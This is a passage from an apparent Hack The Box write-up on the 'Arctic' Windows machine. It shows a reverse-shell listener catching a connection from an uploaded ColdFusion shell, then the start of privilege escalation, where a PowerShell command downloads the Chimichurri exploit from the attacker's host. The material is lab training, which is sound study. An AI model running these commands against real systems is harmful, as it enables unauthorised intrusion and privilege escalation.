 Once created need to click the left green button to run:

![coldfusion-run-task](/assets/images/2020-08-02-22-08-26.png)

Start a nc listener on port 4444 to catch the reverse shell:

```text
root@kali:~/htb/machines/arctic# nc -lvnp 4444
listening on [any] 4444 ...
```

Now go to website on box and open the shell we've uploaded:

![arctic-shell](/assets/images/2020-08-02-22-09-21.png)

Back to terminal and we should get a connection to our shell, and we see we are on as user tolis:

```text
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.11] 60740
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

We can now get the user flag as above. Now we need to escalate to root, let's use Chimichurri:

```text
root@kali:~/htb/machines/arctic# git clone https://github.com/Re4son/Chimichurri.git
Cloning into 'Chimichurri'...
remote: Enumerating objects: 66, done.
remote: Counting objects: 100% (66/66), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 66 (delta 23), reused 66 (delta 23), pack-reused 0
Unpacking objects: 100% (66/66), done.
root@kali:~/htb/machines/arctic/Chimichurri# cp Chimichurri.exe ..
```

Switch back to the box, and download the file to it:

```text
C:\Users\tolis>powershell.exe "(New-Object System.Net.WebClient).downloadFile('http://10.10.14.31/Chimichurri.exe','chimichurri.exe')"
C:\Users\tolis>dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5
 Directory of C:\Users\tolis
02/08/2019  08:49    <DIR>          .
02/08/2019  08:49    <DIR>          ..
02/08/2019  08:52            97.280 chimichurri.exe
22/03/2017  10:00    <DIR>          Contacts
22/03/2017  10:00    <DIR>          Desktop
22/03/2017  10:00    <DIR>          Documents
22/03/2017  10:00    <DIR>          Downloads
22/03/2017  10:00    <DIR>          Favorites
22/03/2017  10:00    <DIR>          Links
22/03/2017  10:00    <DIR>          Music
22/03/2017  10:00    <DIR>          Pictures
22/03/2017  10:00    <DIR>          Saved Games
22/03/2017  10:00    <DIR>          Searches
22/03/2017  10:00    <DIR>          Videos
```